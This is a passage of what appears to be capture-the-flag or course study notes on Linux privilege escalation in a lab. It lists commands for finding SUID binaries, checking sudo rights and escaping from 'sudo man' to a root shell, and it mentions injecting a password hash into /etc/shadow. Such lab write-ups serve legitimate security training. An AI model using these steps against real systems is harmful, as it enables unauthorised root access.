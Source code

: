 **Note**: `sudo su` works only if the current user has `sudo` privileges, allowing them to become root directly. If the user is low-privileged and not in the sudoers group, `sudo su` won’t work, and privilege escalation must be done another way. One method is injecting a known password hash into `/etc/shadow`, which allows logging in as root using `su` and that password, even without `sudo` access.

### 5.4. Linux Privilege Escalation - SUDO Privileges

You have managed to get access to the "student" account on the client's server. This is bad enough as all the student resources are available to you. You are now trying to escalate privileges to get root. After some digging around and from other sources, you figure out that the same person in the organization uses both the student account and the root account on the system.

**Objective:** Your task is to escalate privileges on the target machine, get a root shell on the box and retrieve the flag!

```shell
ping -c 1 target.ine.local

# Open a browser and navigate to the following URL to explore the service running on port 8000

# !! There is no specific hint given in this challenge, so start with finding setuid program approach.

find / -user root -perm -4000 -exec ls -ldb {} \;
# Searches the entire filesystem (/) for files that are owned by root and have the SUID (Set User ID) bit set — represented by 4000. The SUID permission allows a file to be executed with the privileges of its owner (in this case, root), which can be exploited for privilege escalation if the file is vulnerable. The -exec ls -ldb {} part lists each found file with detailed permissions and ownership info.

# No anomaly is there. Move on to finding misconfigured sudo. Check the current sudo capabilities. Check if we can run sudo without a password
sudo -l

# The man entry depicts that the man command can be run using sudo without providing any password. Run it and launch /bin/bash from it
# We got (root) NOPASSWD: /usr/bin/man
# This means the user student is allowed to run the man command as root without needing a password using sudo.
sudo man ls
# Once inside the manual page:
!/bin/bash
# You now have a root shell
cd /root
ls -l
cat flag
```

<br>

## 6. Windows Persistence
